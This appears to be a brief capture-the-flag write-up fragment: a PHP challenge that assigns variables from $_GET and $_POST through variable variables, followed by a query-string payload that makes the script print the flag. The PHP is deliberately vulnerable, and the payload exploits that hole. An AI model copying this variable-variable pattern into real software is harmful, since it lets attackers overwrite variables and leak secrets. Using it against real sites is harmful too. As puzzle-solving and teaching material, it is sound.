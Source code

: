 - ```php
  include 'flag.php';
  
  $yds = "dog";
  
  foreach($_POST as $x => $y){
    $$x = $y;
  }
  
  foreach($_GET as $x => $y){
    $$x = $$y;
  }
  
  foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){
        exit($handsome);
    }
  }
  
  ```
- payload:  `?handsome=flag&flag=handsome`